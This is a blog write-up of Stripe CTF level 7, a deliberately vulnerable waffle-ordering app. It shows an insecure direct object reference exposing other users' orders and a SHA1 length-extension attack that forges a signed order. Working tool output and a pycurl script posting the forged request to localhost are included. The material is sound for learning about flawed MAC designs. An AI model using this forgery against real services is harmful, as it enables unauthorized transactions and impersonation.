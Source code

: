 Stripe CTF: Level #7
####################
:date: 2012-12-09 15:07
:author: useless
:category: Write-up
:slug: stripe-ctf-level-7
:status: published

.. image:: /images/stripe-ctf-level-7/level07-logo.jpg
    :alt: level07-logo.jpg
    :align: center

You can find the code for this level
`here </docs/stripe-ctf-level-7/stripe-ctf-level07.tar.gz>`__.

(sha256:
:code:`d497f25a620a2ad5e3850bf642cfc1df988e32b612d06f48fffa271912726e86`)

This level is the most delicious of all: you can order waffles online,
and the company will have them delivered to the location you specified.
There are seven types of waffle: veritaffle, belgian, brussels, eggo,
chicken (premium), dream (premium), and the king of waffles, liege
(premium). You have an unprivileged account (login: ctf, password:
password), so you can't order premium waffles. Yet, your goal is to
order the supreme waffle: the liege. There are four other users on the
website: larry (premium account), randall (premium account), alice and
bob. Every user has an ID, and a secret (which has the form of a random
string).

.. image:: /images/stripe-ctf-level-7/level07-ctf-user-interface.png
    :alt: level07-ctf-user-interface.png
    :align: center

The company provides you with a client API you can use to order waffles.
Every order is of the form:
:code:`count=XXX&lat=XXX&user_id=XXX&long=XXX&waffle=XXX`. Then, a
signature is computed using the client's secret, and appended to the
order. The signature is of the form:

.. code-block:: python

    # File client.py, line 61
    def _signature(self, message):
        h = hashlib.sha1()
        h.update(self.api_secret + message)
        return h.hexdigest() # signature = SHA1(secret + message)

We can view our past orders at the URL /logs/id.

.. image:: /images/stripe-ctf-level-7/level07-ctf-order.png
    :alt: level07-ctf-order.png
    :align: center

But what if we change the ID in the URL?

.. image:: /images/stripe-ctf-level-7/level07-larry-order.png
    :alt: level07-larry-order.png
    :align: center

.. image:: /images/stripe-ctf-level-7/level07-barry-order.png
    :alt: level07-barry-order.png
    :align: center

Bingo, we are now viewing larry's and randall's past orders. But since
they didn't order any liege, we can't use these orders as is. Let's see
in the code how the order is checked:

.. code-block:: python

    # File wafflecopter.py, line 139
    def parse_params(raw_params):
        pairs = raw_params.split('&')
        params = {}
        for pair in pairs:
            key, val = pair.split('=')
            key = urllib.unquote_plus(key)
            val = urllib.unquote_plus(val)
            params[key] = val
        return params

That's the code which parse the body of the order. We can see that they
don't check if a parameter has been specified more than once. So if you
send an order of the form: :code:`count=XXX&lat=XXX&user_id=XXX&long=XXX&waffle=XXX&waffle=YYY`,
the last waffle will be ordered (in this case, YYY).

Great, so we can just take a previous order from larry, append
:code:`&waffle=liege` to the end, and send it to the server!
Actually, we can't, because of the signature: if we change the order,
but not the signature, they won't match, and the server will refuse to
carry our order. So we need to change the signature. But how can we do
that without knowing larry's secret? The key here is cryptography.

Like we said earlier, the signature is computed via :code:`SHA1(secret +
message)`. But the SHA1 function follows the `Merkle–Damgård
construction <https://en.wikipedia.org/wiki/Merkle%E2%80%93Damg%C3%A5rd_construction>`__.
Basically, the message is broken up in equal blocks of 512 bits. Then,
computation is done on the first block and produces an output. This
output is used to perform the same computation on the second block, and
so on. So, it means that given :code:`SHA1(secret + message)` and the
and the length of :code:`secret`, we can compute :code:`SHA1(secret + message +
message_modifier)`. And that's exactly what we want, to append
something (here, :code:`&waffle=liege`) at the end of the message.

I started searching for a Python implementation of SHA1, and wanted to
modify it so that it would compute my forged signature, but it took too
much time. Fortunately, two guys I was working with on the CTF,
`lopi <https://twitter.com/_Lopi_>`__ and mark, found a script that
could forge the signature for us. The script was taken down since then,
but you can find another working one `here <https://gist.github.com/philfreo/3873715>`_.

.. code-block:: shell

    $ python sha-padding.py
    usage: sha-padding.py <keylen> <original_message> <original_signature>
    <text_to_append>
    $ python sha-padding.py 14
    "count=10&lat=37.351&user_id=1&long=-119.827&waffle=eggo"
    78943cff885d4b41ff058aa64a36520e66ffdbbe "&waffle=liege"
    new msg:
    'count=10&lat=37.351&user_id=1&long=-119.827&waffle=eggo\x80\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x02(&waffle=liege'
    base64:
    Y291bnQ9MTAmbGF0PTM3LjM1MSZ1c2VyX2lkPTEmbG9uZz0tMTE5LjgyNyZ3YWZmbGU9ZWdnb4AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAIoJndhZmZsZT1saWVnZQ==
    new sig: f7d4b492cc3282cd87e61624ee207ca496e807e4

Now, we just have to make the order:

.. code-block:: python

    # File forged_client.py
    import pycurl, urllib, StringIO

    def order():
        endpoint = 'http://localhost:9233'
        body =
            'count=10&lat=37.351&user_id=1&long=-119.827&waffle=eggo\x80\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x02(&waffle=liege'
        signature = 'f7d4b492cc3282cd87e61624ee207ca496e807e4'
        body += "|sig:" + signature

        output = StringIO.StringIO()
        curl_object = pycurl.Curl()
        curl_object.setopt(pycurl.URL, endpoint + "/orders")
        curl_object.setopt(pycurl.POST, 1)
        curl_object.setopt(pycurl.POSTFIELDS, body)
        curl_object.setopt(pycurl.WRITEFUNCTION, output.write)
        curl_object.perform()
        curl_object.close()

        resp = output.getvalue()

        return resp

    def main():
        print order()

    if __name__ == "__main__":
        main()

.. code-block:: shell

    $ python forged_client.py
    {"confirm_code": "dummy-password", "message": "Great news: 10 liege
    waffles will soon be flying your way!", "success": true}

w00t!

